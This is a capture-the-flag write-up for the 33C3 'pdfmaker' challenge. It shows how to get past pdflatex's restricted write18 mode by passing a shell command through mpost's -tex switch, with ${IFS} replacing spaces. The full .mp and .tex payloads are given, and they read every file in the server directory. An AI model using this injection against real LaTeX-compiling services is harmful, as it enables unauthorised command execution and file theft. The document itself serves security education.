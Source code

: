 # pdfmaker

>pdfmaker (75)
>
>Solves: 133
>
>Just a tiny application, that lets the user write some files and >compile them with pdflatex. What can possibly go wrong?
>
>nc 78.46.224.91 24242

We connect to the server and see:

    Welcome to p.d.f.maker! Send '?' or 'help' to get the help. Type 'exit' to disconnect.
    >

>\> help

    Available commands: ?, help, create, show, compile.
    Type 'help COMMAND' to get information about the specific command.

>\> help show

    Shows the content of a file. Syntax: show TYPE NAME
    TYPE: type of the file. Possible types are log, tex, sty, mp, bib
    NAME: name of the file (without type ending)

>\> help compile

    Compiles a tex file with the help of pdflatex. Syntax: compile NAME
    NAME: name of the file (without type ending)

>\> help create

    Create a file. Syntax: create TYPE NAME
    TYPE: type of the file. Possible types are log, tex, sty, mp, bib
    NAME: name of the file (without type ending)
    The created file will have the name NAME.TYPE

When I understood that we could compile arbitrary .tex files, I remembered a blog-post I read a while back regarding running shell commands from latex: [https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/](https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

It's worth to mention that I also tried creating a .tex file running ```\immediate\write18{ls>out.log}```, but write18 was set to restricted mode. I guess we have to do this the hard way!

Since we know that we can write .mp-files (per ```help create```), this seems to be the right solution. We simply follow the blog instructions:

>\> create mp test

We enter

    verbatimtex
    \documentclass{minimal}
    \begin{document}
    etex
    beginfig (1)
    label(btex blah etex, origin);
    endfig;
    \end{document}
    bye
    \q

As the blog-post says, we use ```mpost``` to compile the .mp-file, and pass in the switch ```-tex``` with a shell command that we want to run. Awesome!

With regards to what command we should run, I first did a couple of tests with a simple (ls)>ls.log, and saw that the flag file changed its name randomly. I tried creating extra tex-files that would ```(cat FILENAME)>ls.log``` but I couldn't get that to work.

I ended up with running ```bash -c (cat $(find .))>ls.log``` instead. Note that per the blog-post, we have to insert ```${IFS}``` instead of spaces.

>\> create tex lol

    \documentclass{article}
    \begin{document}
    \immediate\write18{mpost -ini \"-tex=bash -c (cat${IFS}$(find${IFS}.))>ls.log\" \"test.mp\"}
    \end{document}
    \q

>\> compile lol

After that successfully runs, we can simply ```show``` the file we wrote to:

>\> show log ls

We will see the contents from all the files in the directory, one of them which contains:

> 33C3_pdflatex_1s_t0t4lly_s3cur3!

Score! I have added a automated script for capturing this flag, in this directory.
